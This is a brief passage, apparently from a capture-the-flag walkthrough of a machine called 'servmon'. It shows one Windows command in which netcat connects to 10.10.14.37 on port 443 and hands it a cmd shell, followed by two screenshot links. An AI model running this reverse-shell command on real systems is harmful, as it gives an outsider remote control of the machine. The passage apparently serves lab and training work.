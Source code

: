 ```sh
\programdata\nc.exe 10.10.14.37 443 -e cmd
```

![screenshot](/assets/images/servmon16.png)

![screenshot](/assets/images/servmon17.png)

